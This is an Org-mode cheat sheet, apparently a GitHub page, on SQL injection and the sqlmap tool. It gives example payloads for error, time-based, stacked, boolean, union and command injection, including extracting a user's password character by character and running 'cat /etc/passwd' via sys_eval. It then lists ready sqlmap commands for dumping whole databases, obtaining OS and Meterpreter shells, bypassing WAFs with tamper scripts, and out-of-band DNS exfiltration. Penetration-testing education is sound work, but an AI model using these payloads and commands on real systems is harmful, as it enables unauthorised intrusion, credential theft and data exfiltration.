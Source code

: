 #+TITLE: HACKING TOOLS
#+DESCRIPTION: SQLMAP Tool 
#+AUTHOR: Linux-DEX
#+OPTIONS: toc:3

* TABLE OF CONTENT :toc:
- [[#introduction][Introduction]]
- [[#sql-injection-types][SQL Injection Types]]
  - [[#error-based-injection][Error Based Injection]]
  - [[#time-delay][Time Delay]]
  - [[#stacked-queries][Stacked Queries]]
  - [[#boolean-based-injection][Boolean Based Injection]]
  - [[#union-based][Union Based]]
  - [[#command-injection][Command Injection]]
- [[#sqlmap-tool][sqlmap tool]]
  - [[#options][Options:]]
  - [[#target][Target:]]
  - [[#request][Request:]]
  - [[#injection][Injection:]]
  - [[#detection][Detection:]]
  - [[#techniques][Techniques:]]
  - [[#enumeration][Enumeration:]]
  - [[#operating-system-access][Operating system access:]]
  - [[#general][General:]]
  - [[#miscellaneous][Miscellaneous:]]
- [[#commands][Commands]]
  - [[#basic-sqlmap-command][Basic SQLMAP command]]
  - [[#enumerate-database][Enumerate Database]]
  - [[#enumerate-tables][Enumerate Tables]]
  - [[#list-the-column-in-table][List the column in table]]
  - [[#to-dump-an-entire-database][To dump an entire database]]
  - [[#sqlmap-from-burp-file][sqlmap from burp file]]
  - [[#custom-sql-injection-payload-pre-and-post-input][Custom SQL injection Payload: pre and post input]]
  - [[#sqlmap-cookie][SQLMap cookie]]
  - [[#sqlmap-shell][SQLMap Shell]]
  - [[#sqlmap-waf-bypass][SQLMap WAF Bypass]]
  - [[#sqlmap-proxy][SQLMap Proxy]]
  - [[#sqlmap-blind-sqli-of-bandoob][SQLMap Blind sqli of band(OOB)]]
  - [[#sqlmap-get-parameter][SQLMap GET Parameter]]
  - [[#sqlmap-post-parameter][SQLMap POST Parameter]]
  - [[#run-sql-queries][Run SQL Queries]]
  - [[#url-parameters-in-friendly-urls][URL Parameters in Friendly URL's]]
  - [[#sqlmap-crawl--exploit][SQLMap Crawl & Exploit]]

* Introduction
+ SQLmap is an open-source penetration testing tool designed to automate the detection and exploitation of SQL injection vulnerabilities in web applications.
+ SQLmap includes a robust detection engine and numerous features for penetration testers, allowing them to fingerprint databases, retrieve data, access the file system, and execute commands on the operating system.
+ It detects SQL injections on target hosts and offers options such as database fingerprinting, user enumeration, password retrieval, table/column dumping, executing custom SQL statements, and reading files on the file system.
+ Overall, SQLmap simplifies the process of identifying and exploiting SQL injection flaws in web applications.

* SQL Injection Types
** Error Based Injection
+ Error Based Injection technique forces the database to generate an error, giving the attacker or tester information upon which to refine their injection.
+ This method only works when the webapp doesn't handle error properly and shows it on the screen to the user.
+ *Example:*
    #+begin_example
    ' || cast('-' || current_database() as numeric) || '
    #+end_example
    - Here we try to cast string as numeric, which of course will throw an error but the evaluated string with current database name will part of the error message. Thus giving hacker info about database.

** Time Delay
+ This method is a type of '=Blind Query='. Blind query is opposite of error based injection, where user doesn't see the information/errors of the database to the front end.
+ This query is specially useful when knowing if the application is injectable or not.
+ In this injection type, we use database commands (e.g. sleep) to delay answers in conditional queries.
+ *Example:*

    #+begin_example
    SELECT IF(version()=5.3, sleep(5), 'false')
    #+end_example

+ As shown in the example above, an attacker can send a bunch of true-false statements with sleep function running on true or false case to gain information.
+ Attacker has to keep trying continuously with new values in this technique. This is why automation tools like SQLMAP are very useful in this case.

** Stacked Queries 
+ This is one of the easiest yet one of the most powerful injection technique.
+ Stacked queries(also known as batch queries) is an ability to modify data and call stored procedures by terminating the original query and adding a new one.
+ *Example:*

    #+begin_example
    '; select pg_sleep(3) --
    #+end_example

+ This is very powerful since an attacker is not restricted by previous queries rows and conditions.
   
** Boolean Based Injection 
+ Boolean based injection is also a type of blind injection.
+ In this method, an attacker uses Boolean condition(s) to verify whether certain conditions are true or false.
+ *Example:*

#+begin_example
1. ' or (username='perl' and length(passwd)=N) --
2. ' or (username='perl' and ASCII(substring(passwd,1,1))=112) --
#+end_example

+ In this example, we are trying to get password for the user 'perl'. First, we try to guess the length of the password for the user. We keep trying until it's corrent, at which point, we will be able to get into the application.
+ Once we find out the password length, we again try to go through each substring of size 1 and try to match it with a character. Again this is tedious procedure, which is why we use tools like SQLMAP.

** Union Based
+ Union based injection can be used when the SQL injection flaw happens in SELECT statement, making it possible to combine two queries into a single result or result set.
+ *Example:*

#+begin_example
select id, firstname, lastname from ...
union 
        (select id, 
                (select 'Current Schema: ' ||  current_schema() ||  
                ' Current Database:  '  || current_database()  
                ' Current DB User: ' || current_user() ), 
                , lastname 
        from 
                account) --
#+end_example

+ Here, if we know that the select statement takes 3 queries (Easy to find out if errors are enabled) and it echoes the value of one of the field to the user, we can take advantage of that and use select statements to get more information out of database.

** Command Injection
+ Modern day databases have a way for db users to define their own functions, which is called UDF(User Defined Functions). 
+ If the users have functions like sys_eval (which is commong amongst libraries) and if the app is injectable, attackers can gain access to the shell.
+ *Example:*

#+begin_example
select id, firstname, lastname from ... UNION (select '1', (select sys_eval('cat /etc/passwd')), '1' from account)--
#+end_example

+ This is an example of code injection leading to command injection.

* sqlmap tool
** Options:

+  -h, --help            Show basic help message and exit
+  -hh                   Show advanced help message and exit
+  --version             Show program's version number and exit
+  -v VERBOSE            Verbosity level: 0-6 (default 1)

** Target:
At least one of these options has to be provided to define the
target(s)

+  -u URL, --url=URL   Target URL (e.g. "http://www.site.com/vuln.php?id=1")
+  -g GOOGLEDORK       Process Google dork results as target URLs

** Request:
These options can be used to specify how to connect to the target URL

+ --data=DATA         Data string to be sent through POST (e.g. "id=1")
+ --cookie=COOKIE     HTTP Cookie header value (e.g. "PHPSESSID=a8d127e..")
+ --random-agent      Use randomly selected HTTP User-Agent header value
+ --proxy=PROXY       Use a proxy to connect to the target URL
+ --tor               Use Tor anonymity network
+ --check-tor         Check to see if Tor is used properly

** Injection:
These options can be used to specify which parameters to test for,
provide custom injection payloads and optional tampering scripts

+ -p TESTPARAMETER    Testable parameter(s)
+ --dbms=DBMS         Force back-end DBMS to provided value

** Detection:
These options can be used to customize the detection phase

+ --level=LEVEL       Level of tests to perform (1-5, default 1)
+ --risk=RISK         Risk of tests to perform (1-3, default 1)

** Techniques:
These options can be used to tweak testing of specific SQL injection
techniques

+ --technique=TECH..  SQL injection techniques to use (default "BEUSTQ")

** Enumeration:
These options can be used to enumerate the back-end database
management system information, structure and data contained in the
tables

+ -a, --all           Retrieve everything
+ -b, --banner        Retrieve DBMS banner
+ --current-user      Retrieve DBMS current user
+ --current-db        Retrieve DBMS current database
+ --passwords         Enumerate DBMS users password hashes
+ --dbs               Enumerate DBMS databases
+ --tables            Enumerate DBMS database tables
+ --columns           Enumerate DBMS database table columns
+ --schema            Enumerate DBMS schema
+ --dump              Dump DBMS database table entries
+ --dump-all          Dump all DBMS databases tables entries
+ -D DB               DBMS database to enumerate
+ -T TBL              DBMS database table(s) to enumerate
+ -C COL              DBMS database table column(s) to enumerate

** Operating system access:
These options can be used to access the back-end database management
system underlying operating system

+ --os-shell          Prompt for an interactive operating system shell
+ --os-pwn            Prompt for an OOB shell, Meterpreter or VNC
  
** General:
These options can be used to set some general working parameters

+ --batch             Never ask for user input, use the default behavior
+ --flush-session     Flush session files for current target
  
** Miscellaneous:
These options do not fit into any other category

+ --wizard            Simple wizard interface for beginner users

* Commands
** Basic SQLMAP command
#+begin_example
$ sqlmap -u [URL] -p [parameter] --dbs
#+end_example
+ This command will tell sqlmap to scan the specified URL and parameter for vulnerabilities.

** Enumerate Database
#+begin_example
$ sqlmap -u http://testsite.com/page.php?id=1 --dbs
#+end_example
+ The =-u= flag is used to specify an URL and the =--dbs= command tells SQLMap to try to enumerate the database.

** Enumerate Tables
+ Once we have gained an initial foothold, we can now work with the database. list the tables in a database
#+begin_example
$ sqlmap -u https://testsite.com/page.php?id=1 -D <db_name> --tables
#+end_example

** List the column in table
#+begin_example
$ sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> -T <table_name> --columns
#+end_example

** To dump an entire database
#+begin_example
$ sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --dump-all
#+end_example

** sqlmap from burp file
+ Save a burp or zap request file and mark the injection point parameters with an asterisk(*), the good thing about this option is that it takes care of any authentication cookies for you. 
+ You can inject into any parameter in the request e.g., headers, inside cookies, and using multiple method(GET, PUT, POST, DELETE) etc...
#+begin_example
$ sqlmap -r request.burp
#+end_example

** Custom SQL injection Payload: pre and post input

*** How to insert input before an injection payload
#+begin_example
$ sqlmap -u "https://highon.coffee" -dbs --suffix="blah"
#+end_example

*** How to insert input after an injection payload
#+begin_example
$ sqlmap -u "https://highon.coffee" -dbs --postfix="--+"  
#+end_example

** SQLMap cookie
#+begin_example
$ --cookie="PHPSESSID=$your-cookie"
#+end_example

** SQLMap Shell
*** How to get an operating system command shell with sqlmap
#+begin_example
$ --os-shell
#+end_example

*** How to execute a command with sqlmap
#+begin_example
$ --os-cmd uname
#+end_example

*** Meterpreter shell with SQLmap
#+begin_example
$ --os-pwn
#+end_example

** SQLMap WAF Bypass
+ To bypass WAF's with SQLMap you can use the premade tamper scripts with =--tamper= like in the following example:
#+begin_example
$ sqlmap -u “https://highon.coffee/?espresso=*” --tamper="apostrophemask,apostrophenullencode,randomcase"
#+end_example

** SQLMap Proxy
+ It is possible to proxy sqlmap traffic via an upstream proxy such as burp suite by passing.
#+begin_example
$ sqlmap --proxy=http://127.0.0.1:8080
#+end_example

** SQLMap Blind sqli of band(OOB)
#+begin_example
$ sqlmap -u “https://highon.coffee/?espresso=*” --dns-domain=$your-collab-url
#+end_example

** SQLMap GET Parameter
+ The following specifies the GET parameter "espresso" for injection:
#+begin_example
$ sqlmap -u “https://highon.coffee/?espresso=*” -p espresso 
#+end_example

** SQLMap POST Parameter
+ The following specifices the POST parameter "espresso" for injection:
#+begin_example
$ sqlmap -u “https://highon.coffee/?espresso=*” --data “espresso=*” 
#+end_example

** Run SQL Queries
+ You can run a sql query using -sql-query for example:
#+begin_example
$ sqlmap -u highon.coffee -D $database-name --sql-query="SELECT * FROM $table;"
#+end_example

** URL Parameters in Friendly URL's 
Simply mark them with a asterisk(*), for example:
#+begin_example
$ https://highon.coffee/foo/bar/parameter1*/value1 
#+end_example
The above would set the injection point at parameter1.

** SQLMap Crawl & Exploit
+ Useful for automation, however please be mindful of the overheads you are imposing on the target server:
#+begin_example
$ python3 sqlmap.py --crawl=5 --threads=5 --risk=3 --level=5 --batch --answers="keep testing=Y,sitemap=Y,skip further tests=N" --crawl-exclude="logout" --forms --tamper=apostrophemask,apostrophenullencode,randomcase --dns-domain=$your-collab-url --random-agent -u https://highon.coffee
#+end_example

+ You will need to replace your collaborator payloads URL, and I higly recommend you setup your own collaborator server for this.
